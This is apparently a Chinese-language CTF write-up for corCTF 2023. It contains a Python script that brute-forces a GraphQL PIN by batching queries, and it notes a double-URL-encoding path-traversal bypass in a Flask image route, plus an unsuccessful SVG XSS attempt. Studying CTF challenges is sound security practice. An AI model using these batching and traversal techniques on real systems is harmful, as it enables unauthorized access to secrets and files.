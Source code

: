 # web
### force
#GraphQL
核心代码
```js
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801191544.png)
要让传进去的flag\=\=一个随机数 ,而且限制了最大request,无法爆破

```http
POST / HTTP/1.1
Host: web-force-force-071653fc1aff533c.be.ax
Content-Length: 20
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: text/plain
Accept: */*
Origin: https://web-force-force-328a9076b0a2deb6.be.ax
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://web-force-force-328a9076b0a2deb6.be.ax/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    flag(pin:11)
}
```

不知道怎么绕过...

---

GraphQL的特性是支持一条http请求里执行多个查询也就是`batch query`
https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#batching-attacks
```python
{
batch1:flag(pin:0)

batch2:flag(pin:1)
}
```

*python*
```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}



while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

### msfrognymize
一个上传图片后对可以对人脸进行打码的网站

---
漏洞在查看文件处...可以目录穿越
```python
@app.route('/anonymized/<image_file>')
def serve_image(image_file):
    file_path = os.path.join(UPLOAD_FOLDER, unquote(image_file))
    if ".." in file_path or not os.path.exists(file_path):
        return f"Image {file_path} cannot be found.", 404
    return send_file(file_path, mimetype='image/png')
```
两次url编码,直接可以到根目录,光想着往上穿了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230801221808.png)



### frogshare
#xss 
![image](https://i.imgur.com/lN64zKd.png)
可以根据传入的参数生成一个svg样式

测试了一下[svg_存储xss](https://infosecwriteups.com/stored-xss-using-svg-file-2e3608248fae) 直接访问svg可以xss,但是这道题里生成的没法xss

# reverse
https://blog.solidity.kr/posts/(ctf)-2023-corctf/
### utterly-deranged
直接f5会提示`too big function`,修改配置文件里的选项,还是不行,反编译半天也没结果
我们需要反反编译


# pwn

# crypto

# Misc


---
# *相关wp*




2023-08-01   19:14